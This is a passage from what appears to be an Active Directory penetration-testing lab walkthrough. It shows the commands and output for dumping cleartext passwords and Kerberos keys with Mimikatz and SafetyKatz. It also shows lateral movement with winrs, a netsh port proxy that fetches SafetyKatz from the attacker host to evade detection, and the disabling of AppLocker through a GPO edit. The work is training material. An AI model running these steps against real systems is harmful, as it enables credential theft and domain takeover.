- Replace `Invoke-Mimi -Command '"sekurlsa::ekeys"'` that we added earlier with `Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'`.



Copy `Invoke-MimiEx-vault-std422.ps1` to `dcorp-adminsrv` and run it. Remember that it will take several minutes for the copy process to complete.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Copy-Item C:\AD\Tools\Invoke-MimiEx-vault-std422.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'`

Now, run the script. Again, it may take a couple of minutes for the script execution to complete.

`dir \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'`:
```
    Directory: \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   8:27 AM                Common Files
d-----          5/8/2021   8:15 AM                Internet Explorer
d-----          5/8/2021   8:15 AM                ModifiableWindowsApps
d-----        11/11/2022   9:57 AM                Windows Defender
d-----        10/25/2024  10:36 AM                Windows Defender Advanced Threat Protection
d-----          5/8/2021   9:34 AM                Windows NT
d-----          5/8/2021   8:27 AM                WindowsPowerShell
-a----         2/19/2025   2:15 PM        3063587 Invoke-MimiEx-keys-std422.ps1
-a----         2/19/2025   2:51 PM        3063392 Invoke-MimiEx-vault-std422.ps1📌
```

`Enter-PSSession dcorp-adminsrv`:
```
[dcorp-adminsrv]: PS C:\Users\student422\Documents>
```
🚀


`C:\'Program Files'\Invoke-MimiEx-vault-std422.ps1`:
```
[SNIP]

mimikatz(powershell) # token::elevate📌
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM📌

604     {0;000003e7} 1 D 17413          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !📌
 * Process Token : {0;0049482c} 0 D 4804172     dcorp\student422        S-1-5-21-719815819-3726368948-3917688648-20607  (10g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4848253     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(powershell) # vault::cred /patch📌
TargetName : Domain:batch=TaskScheduler:Task:{D1FE8F15-FC32-486B-94BC-471E4B1C1BB9} / <NULL>
UserName   : dcorp\srvadmin👤
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : TheKeyUs3ron@anyMachine!🔑
Attributes : 0

[SNIP]
```

Sweet! We got credentials for the `srvadmin` user in clear-text!

Start a cmd process using runas. Run the below command **from an elevated shell**.


`runas /user:dcorp\srvadmin /netonly cmd`:
```
Enter the password for dcorp\srvadmin:
Attempting to start cmd as user "dcorp\srvadmin" ...
```




The new process that starts has `srvadmin` privileges.

Check if `srvadmin` has admin privileges on any other machine.

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1`

`Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose`:
```
VERBOSE: Trying to run a command parallely on the provided computers list using PSRemoting.
dcorp-adminsrv
dcorp-mgmt📌
```

We have local admin access on the `dcorp-mgmt` server as `srvadmin` and we already know a session of `svcadmin` is present on that machine.

Let's use SafetyKatz to extract credentials from the machine. Run the below commands from the process running as `srvadmin`.

Copy the `Loader.exe` to `dcorp-mgmt`.

`echo Y | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe`:
```
Overwrite \\dcorp-mgmt\C$\Users\Public\Loader.exe (Yes/No/All)? Y
C:\AD\Tools\Loader.exe
1 File(s) copied
```

Using winrs, add the following port forwarding on `dcorp-mgmt` to avoid detection on `dcorp-mgmt`.

`$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22"`

Please note that we must use the `$null` variable to address output redirection issues.

Extract the credentials.

`winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 830583 (00000000:000cac77)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 8:42:36 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa🔑
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

[SNIP]

Authentication Id : 0 ; 58588 (00000000:0000e4dc)
Session           : Service from 0
User Name         : svcadmin👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 7:43:40 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011🔑
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8

[SNIP]
```

**Disable Applocker on `dcorp-adminsrv` by modifying GPO**

Recall that we enumerated that `student422` has Full Control/GenericAll on the Applocked Group Policy. Let's make changes to the Group Policy and disable Applocker on `dcorp-adminsrv`.

We need the Group Policy Management Console for this.
As the student VM is a Server 2022 machine, we can install it using the following steps: open Server Manager -> `Add roles and features` -> `Next` -> `Next` -> `Next` -> `Next` -> `Features` -> enable `Group Policy Management` -> `Next` -> `Install`.



After the installation is completed, start the gpmc. We need to start a process as `student422` using runas, otherwise gpmc doesn't get the user context.

Run the below command **from an elevated shell**.


`runas /user:dcorp\student422 /netonly cmd`:
```
Enter the password for dcorp\student422:
Attempting to start cmd as user "dcorp\student422" ...
```

Run the below command in the new spawned cmd.




`gpmc.msc`

In gpmc: expand `Forest: moneycorp.local` -> `Domains` -> `dollarcorp.moneycorp.local` -> `Applocked` -> right click on the `Applocker` policy and click on `Edit`.



In the new window, expand `Policies` -> `Windows Settings` -> `Security Settings` -> `Application Control Policies` -> `Applocker`.



Start looking at each category of the `Applocker` policies. You will find out that **there are two restrictions**. Recall that we have already enumerated this earlier.
1. In the `Executable Rules`, 'Everyone' is allowed to run Microsoft signed binaries.
2. In the `Script Rules`, 'Everyone' can run Microsoft signed scripts from any location and two default rules where 'Everyone' can run Microsoft signed scripts from `C:\Windows` and `C:\Program Files` folders.

As we already abused the default `Script Rules`, let's go for `Executable Rules`. Right click on the rule and delete it.



Now, we can either wait for the Group Policy refresh or force an update on the `dcorp-adminsrv` machine. Let's go for the later using the following commands as `student422`.


`winrs -r:dcorp-adminsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\student422>
```
🚀


`gpupdate /force`:
```
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

`exit`


Now, let's copy `Loader.exe` on the machine and use it to run SafetyKatz.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe`:
```
Does \\dcorp-adminsrv\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-adminsrv cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\student422>
```
🚀


`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys

[SNIP]

Authentication Id : 0 ; 136295 (00000000:00021467)
Session           : Service from 0
User Name         : appadmin👤
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/16/2025 7:43:13 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1117

         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL🏛️
         * Password : *ActuallyTheWebServer1
         * Key List :
           aes256_hmac       68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb🔑
           aes128_hmac       449e9900eb0d6ccee8dd9ef66965797e
           rc4_hmac_nt       d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7
           rc4_md4           d549831a955fee51a43c83efb3928fa7
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7

[SNIP]
```
🚩

Sweet! We were able to disable `Applocker`.

**Please note that modification to GPO is not OPSEC safe but still commonly abuse by threat actors.**

---
---
